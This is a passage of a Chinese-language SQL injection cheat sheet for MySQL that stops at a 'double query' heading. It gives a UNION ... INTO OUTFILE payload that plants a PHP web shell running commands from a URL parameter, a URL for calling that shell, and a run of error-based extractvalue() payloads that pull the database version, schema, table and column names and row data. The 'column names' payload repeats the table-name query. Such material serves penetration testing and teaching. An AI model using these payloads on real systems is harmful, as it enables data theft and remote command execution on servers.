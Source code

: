 ####  然后转到浏览器，看看是否可以执行命令
```sql
http://<ip_address>/shell.php?cmd=id
```
####  使用UNION保存文件
```sql
1 UNION SELECT ("<?php echo passthru($_GET['cmd']);") INTO OUTFILE 'C:/xampp/htdocs/cmd.php' -- -
```
### 基于错误注入

当除了MySQL错误之外没有任何输出时，您可以通过该错误强制提取数据。请注意，以下两种方法都可以使用 [Burp’s](http://www.portswigger.net/burp/) [Intruder](http://www.portswigger.net/burp/intruder.html)和 [grep extract](http://portswigger.net/burp/help/intruder_options.html#grepextract) 提取功能轻松实现自动化。

函数

当[ExtractValue()](http://dev.mysql.com/doc/refman/5.1/en/xml-functions.html#function_extractvalue)函数无法解析传递给它的XML数据时，它会生成一个SQL错误。幸运的是，XML数据，以及在我们的情况下，SQL查询的评估结果，将嵌入到后续的错误消息中。在XML查询的开头加上句号或冒号（我们使用下面0x3a的十六进制表示）将确保解析始终失败，从而在提取的数据中生成错误。请注意，这只适用于MySQL 5.1或更高版本。使用[LIMIT](http://php.about.com/od/mysqlcommands/g/Limit_sql.htm)函数循环浏览数据库信息。

#### 检索数据库版本：
```sql
1 AND extractvalue(rand(),concat(0x3a,version()))--
```
#### 检索数据库名称：
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,schema_name) FROM information_schema.schemata LIMIT 0,1)))--
```
#### 检索表名：
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE table_schema="database1" LIMIT 0,1)))--
```
#### 检索列名：
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(0x3a,TABLE_NAME) FROM information_schema.TABLES WHERE TABLE_NAME="table1" LIMIT 0,1)))--
```
#### 检索数据：
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(column1,0x3a,column2) FROM table1 LIMIT 0,1)))--
```
#### 从其他数据库检索数据：
```sql
1 AND extractvalue(rand(),concat(0x3a,(SELECT concat(column1,0x3a,column2) FROM database2.table1 LIMIT 0,1)))--
```
### 双重查询

